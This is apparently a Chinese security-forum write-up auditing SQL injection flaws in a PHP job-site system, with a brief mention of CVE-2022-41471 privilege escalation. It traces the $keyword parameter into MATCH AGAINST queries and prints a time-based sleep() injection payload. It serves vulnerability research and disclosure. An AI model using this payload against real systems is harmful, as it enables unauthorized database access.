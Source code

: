![pFseXPs.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-6282046c5c51050dd7820072614dc88467086e1e.png)

这里先分析 $keyword 参数，传入值并跟踪，得到如下sql查询语句：

```sql
SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score1,MATCH (`jobname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score2,MATCH (`companyname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score3 FROM `qs_job_search_key` `a` WHERE  (  MATCH (`jobname`,`companyname`,`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) ) ORDER BY `score1` DESC,`score2` DESC,`score3` DESC,`refreshtime` DESC LIMIT 0,10
```

可以发现也是 MATCH AGAINST 结构，$keyword 的触发点同上一个 sql 漏洞。

根据语句，构造出简单 Payload 并进行跟踪。由于有四个 $keyword 输入点，这里的 sleep(2) 将会睡眠 8 秒。

```sql
'+(select+sleep(2))+'

SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('+' +(select +sleep(2)) +'' IN BOOLEAN MODE) ......
```

![pFsejGn.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-6e81cec53f3c855cc2483af5797d9425313a1f6c.png)

#### 其他参数

$tag 参数，正常查询语句如下

```sql
SELECT `a`.`id`,`company_id`,`stick`,`refreshtime` FROM `qs_job_search_rtime` `a` WHERE  (   FIND_IN_SET('sectag',`tag`) ) ORDER BY `stick` DESC,`refreshtime` DESC LIMIT 0,10
```

经过测试，发现输入的内容会被逗号 `,` 隔开  
![pFsnBnK.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3c01ef91d0f7981abb30ff639ce9a9882c6c2ca1.png)

查看该函数的定义，若要进行闭合，需要逗号构造，但是上述测试发现使用不了逗号。（暂时没有其他思路）  
![pFsnwX6.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-b150dd7781ca9b5d79054991c633437a30f34d02.png)

$sort 参数只有在特定字段时会出现在语句中，暂未发现利用思路。  
![pFsn29A.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5a49b3a5f2ada101eca8bd7ffac333ef6bdd7897.png)

map() 函数中的注入漏洞也是一样，出现在 $keyword 中  
![pFsnchd.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-dd5c25258909f6aacb19e1a455d93d2239c27988.png)

### v3.5.1 SQL 注入｜Resume.php

剩下几个漏洞触发点都是相同的 $keyword ，故不再做分析。  
![pFsnR1I.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-55c020182877901a08bb313e2998aed1d67acc76.png)

### v3.12.0 越权漏洞

漏洞信息：  
[CVE - CVE-2022-41471 (mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41471)  
简而言之，就是同为系统管理员可以修改其他管理员的密码。
